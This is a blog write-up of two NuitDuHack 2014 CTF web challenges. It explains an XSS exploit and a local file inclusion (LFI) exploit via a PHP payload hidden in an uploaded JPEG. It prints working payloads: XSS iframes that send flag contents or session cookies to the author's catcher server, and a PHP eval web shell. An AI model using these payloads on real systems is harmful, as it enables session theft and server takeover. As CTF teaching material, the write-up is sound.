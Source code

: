 +++
author = "pwntester"
categories = ["CTF", "XSS", "Web", "PHP", "LFI"]
date = 2014-04-06T10:29:00Z
description = ""
draft = false
slug = "nuitduhack-2014-web-write-ups"
tags = ["CTF", "XSS", "Web", "PHP", "LFI"]
title = "NuitDuHack 2014 Web Write Ups"

+++


# Web 100: Abitol

This is a simple web app where you can register and login to see an articles page, a photo gallery, a flag page and an admin contact page.

Visiting the flag page give us a `Nice try, did you really think it would be that easy? ;)` but the photo gallery is vulnerable to XSS:

`http://abitbol.nuitduhack.com/zoom.php?image=1%3E%3Cscript%3Ealert%281%29%3C/script%3E`

![](/images/octopress/ndh_1.png)

Now, we dont know how the admin contact will be visualized in the viewer page, but we can try to send him a message with an iframe pointing to the vulnerable page so we can send his session ID to our cookie catcher or use XHR to request the flag.php page and send us the flag. Both options work, but the second is slighlty better since the time frame where the session ID is valid is very narrow:

```lang-bash line-numbers 
<iframe src="http://abitbol.nuitduhack.com/zoom.php?image=1.jpg><script>flag = new XMLHttpRequest(); flag.open('GET','/flag.php',false); flag.send(); flag.open('GET','http://ctf.pwntester.com/catcher.php?data='+flag.response); flag.send();</script>" />
```

```lang-bash line-numbers 
<iframe src="http://abitbol.nuitduhack.com/zoom.php?image=1.jpg><script>document.location="http://ctf.pwntest.com/catcher.php?data="+document.cookie</script>" />
```

After waiting a few minutes, the flag is waiting for us in the catcher:

![](/images/octopress/ndh_2.png)

# Web 300: Titanoreine

This is a photo gallery where we can upload any image to the site. That seems the first attack vector, the second one is that it allows you to change the language and the parameter to do that is `lang=(eng|fr).php` which looks vulnerable to LFI. After some trials, you can include any local file in the root directory by going down three levels. Eg:  `../../../upload.php`

![](/images/octopress/ndh_3.png)

If we include the default images in the gallery system, we can see that only `2.jpg` is included as binary garbage in the page:

![](/images/octopress/ndh_4.png)

However if we download the original image and upload it again with a different name, the new image cannot be included and the LFI just show an empty page. So there seems to be some kind of conversion going on. Comparing the EXIF data of the original and converted ones, we can see that is being compressed by gd library with quality 98:

![](/images/octopress/ndh_5.png)

We will compress it locally so that it does not suffer any conversion in the server (actually the server still changes the image, but probability of screwing up the php code are smaller):

```lang-php line-numbers 
$image = imagecreatefromjpeg('avatar.jpg');
imagejpeg($image,'avatar_lq.jpg',98);
```

Uploading the new compressed image to the site and including it via the LFI works now. All we have to do now is include a PHP shell. It turns out that many PHP commands seems to be forbidden by the server so we ended up using eval: `<?php eval($_GET['a']); ?>`

Update: During the CTF, we were lucky to find another team JPG so that we could slightly modufy it and use it. Modifying a JPG so that the changes survide a GD compression is not an easy task, but will try to explain in a following post.

With that in place we can start sending commands to the server. First we can exfiltrate the code using `highlight_file()`:

`index.php`
![](/images/octopress/ndh_7.png)

`functions.php`
![](/images/octopress/ndh_8.png)

`upload.php`
![](/images/octopress/ndh_9.png)

In order to get the flag, I used a directoryIterator since many other options were cut off:

```lang-php line-numbers 
$it = new RecursiveIteratorIterator(new RecursiveDirectoryIterator('./'));while($it->valid()){echo $it->getSubPathName()."</br>";$it->next();}
```

![](/images/octopress/ndh_10.png)

The flag is hidden in the unsuspicious file:

![](/images/octopress/ndh_11.png)

Voila!

Thanks to **in3pids**, **@_SaxX_** and the organization for such a fun CTF!

